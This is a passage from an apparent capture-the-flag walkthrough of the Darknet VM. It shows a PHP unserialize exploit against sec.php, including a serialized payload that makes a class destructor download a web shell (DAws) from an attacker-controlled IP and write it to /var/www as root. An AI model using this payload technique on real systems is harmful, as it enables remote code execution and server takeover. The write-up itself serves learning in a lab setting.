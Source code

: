 Hmph. Ok then I'll copy the `suphp.conf` to `/tmp` and edit it there, then copy
it back. Making sure I change both `min_uid` and `min_gid`, I reload `sec.php` and
get a blank page. No errors are good errors.

Now that I've got `sec.php` running I can go ahead and see what we might be able to exploit.
Anything we do with this file will run as root, some hopefully this is the last part of
Darknet, because I want my life back :)

`sec.php` unserialises our input, which basically takes a serialised string 
and [unserialises into an object](https://php.net/manual/en/function.unserialize.php). 
Similar to Python's pickle. There's no way I can call a method on either of the classes,
so I have to see what will get called for me.
The `Test` class has a rather useful destructor, which,
will write data to disk and make it world readable. Almost as if that's what
we're supposed to use. 

{{< highlight php >}}
<?php

class Test {

    public $url;
    public $name_file;
    public $path;

    function __destruct(){
        $data=file_get_contents($this->url);
        $f=fopen($this->path."/".$this->name_file, "w");
        fwrite($f, $data);
        fclose($f);
        chmod($this->path."/".$this->name_file, 0644);
}
}

?>
{{< / highlight >}}

The `Show` class on the other hand is only useful for testing, as this will provide visual
feedback when `sec.php` gets rendered and runs the `echo` statement. This will
invoke the `__toString` method on the `Show` class. Passing `test=O:4:"Show":1:{s:4:"woot";s:2:"XX";}` 
will print `Showme`, confirming that the serialisation worked.

Now to get DAws on there as root. First things first I need to determine the serialised
string. I do this with a simple PHP script that searialises the `Test` class and
prints out the string I need. Which is

{{< highlight text >}}
O:4:"Test":3:{s:3:"url";s:30:"http://192.168.56.101/DAws.txt";s:9:"name_file";s:8:"DAws.php";s:4:"path";s:8:"/var/www"}
{{< / highlight >}}

Using Burp suite I use a `GET` request to `sec.php`, send it to `Repeater` and convert
it to a `POST` request with the required payload:

{{< figure src="http://i.imgur.com/kiutbRt.png" >}}
